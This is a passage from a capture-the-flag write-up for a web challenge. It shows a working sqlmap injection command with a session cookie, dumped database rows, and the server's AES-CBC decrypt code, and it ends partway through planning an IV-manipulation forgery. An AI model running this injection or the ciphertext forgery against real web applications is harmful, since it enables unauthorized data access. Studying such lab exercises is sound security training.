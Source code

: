 
### Getting the encrypted value of flag.txt
Let's start dumping the database. First we need our `user_id` since we don't want to dump the entire database, only the data relevant to our user. This can be found in the payload section of our JWT cookie, which is `149` for us. Next let's set up our sqlmap command:
```
sqlmap -T file --dump --cookie 'auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFyanVuIiwiaWQiOjE0OX0.bow8Xe0vVpNhybZknSuCSw9OxDDJfXY3cuXFhcVZ-AE' --data file_id=402 -u https://uscybercombine-s4-web-secure-file-storage.chals.io/api/files/info --threads 10 --where 'user_id=149' --fresh-queries
``` 

This provides us with a table that contains only the file that we uploaded:
```
Database: <current>
Table: file
[1 entry]
+-----+---------+-------+----------------------------------------------+------------------------------------------------------------------+
| id  | user_id | title | filename                                     | filepath                                                         |
+-----+---------+-------+----------------------------------------------+------------------------------------------------------------------+
| 402 | 149     | OMG   | eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q= | NKaHIFVoihif5mxC3sG15ketlbCDTlciKQq0wnYu5AEwg41gmVmf2nLPa6Lb5Tgu |
+-----+---------+-------+----------------------------------------------+------------------------------------------------------------------+
```

Now we see that the filename `flag.txt` is encrypted and base64-encoded to the value `eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q=`. We are currently halfway there, as we still need to find a value that will successfully decrypt to `/`.

### Getting the encrypted value of /
Let's look at the `decrypt` function that the database uses:
```python
def decrypt(ciphertext):
    try:
        ciphertext = base64.b64decode(ciphertext)
        iv,ciphertext = ciphertext[:16],ciphertext[16:]
        cipher = AES.new(app.config["AES_KEY"], AES.MODE_CBC,iv=iv)
        return unpad(cipher.decrypt(ciphertext), AES.block_size)
    except Exception as e:
        logging.error(e)
        return None
```

There are two things of note: the web server uses AES CBC, and the IV is included in the encrypted value. Let's say we encrypt the filename `123456789ABCD.txt`, which is a 17-byte long filename. The encrypted value returned will be 48 bytes after it is base64 decoded. We can verify this by dumping the database again:
```
Database: <current>
Table: file
[2 entries]
+-----+---------+-------+------------------------------------------------------------------+------------------------------------------------------------------+
| id  | user_id | title | filename                                                         | filepath                                                         |
+-----+---------+-------+------------------------------------------------------------------+------------------------------------------------------------------+
| 402 | 149     | OMG   | eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q=                     | NKaHIFVoihif5mxC3sG15ketlbCDTlciKQq0wnYu5AEwg41gmVmf2nLPa6Lb5Tgu |
| 403 | 149     | pls   | eSCeM7m5WRIfpvsfqxPR6BfXMDlYZl4U3tICOxTO3FhN6MEyru+rdu/IhmCuUwYf | eIX4erdKJ7kDlD9N1CWE+BOhdqc2ptNfdLKx6F+kqrq1r6JCfa1Jk6+03gNmEjWd |
```